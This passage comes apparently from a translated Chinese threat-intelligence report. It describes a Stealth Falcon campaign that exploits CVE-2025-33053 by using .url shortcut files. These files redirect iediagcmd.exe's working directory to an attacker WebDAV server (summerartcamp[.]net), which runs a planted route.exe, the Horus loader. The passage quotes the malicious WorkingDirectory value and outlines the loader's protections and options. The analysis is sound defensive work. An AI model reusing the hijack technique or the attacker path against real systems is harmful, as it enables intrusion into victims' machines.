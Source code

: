   
此 Internet 快捷方式文件中的参数 URL 指向 iediagcmd.exeInternet Explorer 的合法诊断实用程序。  
  
通常，此实用程序在运行时会生成其他进程来收集诊断数据，例如：  
  
```
ipconfig.exe /allnetsh.exe in tcp show globalnetsh.exe advfirewall firewall show rule name=allverboseroute.exeprint
```  
  
  
使用标准 .NET Process.Start() 方法：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAhHPg33lEM2pRAQUmpEicxib3U89ZAkSkbV2RzlYzLaBsxXBMjibaGqR7Q/640?wx_fmt=webp&from=appmsg "")  
  
图 1 – 合法的 iediagcmd.exe 生成辅助进程。LaunchProcess 函数在底层使用了标准的 .NET Process.Start() 方法。  
  
根据搜索顺序， Process.Start() 函数首先在调用应用程序的当前文件夹中搜索要运行的可执行文件。由于工作文件夹被 .url 更改为攻击者控制的 WebDAV 服务器路径   
  
```
WorkingDirectory=\\summerartcamp[.]net@ssl@443/DavWWWRoot\OSYxaOjr，
```  
  
  
该 iediagcmd 工具将运行 route.exe 攻击者放置的可执行文件，   
\\summerartcamp[.]net@ssl@443/DavWWWRoot\OSYxaOjr\route.exe 而不是文件夹中的合法可执行文件 system32 。  
  
我们在报告后面分析的恶意软件中的一些痕迹表明，威胁行为者还 CustomShellHost.exe以类似的方式滥用另一个合法的可执行文件，导致它  从其工作文件夹中生成。 explorer.exe  
  
之前曾讨论过一种类似的技术， 即通过 .url 文件从远程服务器加载 DLL 并进行 DLL 劫持，但直到现在我们才发现该技术被用于可执行文件。在向 Microsoft 报告后，该问题被编号为 CVE-2025-33053。  
  
执行 .url 文件后，将释放以下多阶段感染链：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAwhQ9spooEB9dbjQrpLIYa5ib8Lyx1fhjpGpVXsiaUMat83TNbYl29icbg/640?wx_fmt=webp&from=appmsg "")  
  
图 2 – 感染链。  
  
Route.exe – Horus 加载器  
  
从攻击者的 WebDAV 服务器执行的恶意文件 route.exe 充当多阶段加载器。它用 C++ 编写，并使用 Code Virtualizer（一种代码保护系统），该系统将代码转换为自定义虚拟机 (VM) 指令，使逆向工程师难以分析或修改。它是 Themida 保护器的轻量级版本，Stealth Falcon 之前曾大量使用过，但缺少 Themida 附加的混淆、反调试、防篡改和反挂钩功能。加载器已签名，但签名已过期且没有 TSA 时间戳，这可能会阻止某些安全产品使用 Code Virtualizer 或 Themida 自动检测未签名的样本。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAV9yfjFQQv4qRBj242nxJYhnFJj15ItowJYnDXjCyLcKjzPuDy4Lhsg/640?wx_fmt=png&from=appmsg "")  
  
图 3 – Horus 加载器的数字证书。  
  
XXXXXXHorus Loader 具有高度可定制性，其每个功能均由“ ”格式的默认值控制：  
- 清理前几个阶段的遗留问题  
  
- 实施逃避  
  
- 投放并执行诱饵文档  
  
- 加载最终有效载荷  
  
清理  
  
加载程序的代码包含一个选项，用于终止执行早期阶段的进程。我们分析的样本中并未使用这些选项。然而，这个 taskkill 选项使我们能够推断出加载程序的其他执行方式：  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tafQoxRH2H6ico44FhKibcbnuAjI4tnHvdFuQja3ZSichwgIxMD7Jv1POmuoaX8El3XibnsF7W61tRlE1A/640?wx_fmt=webp&from=appmsg "")  
  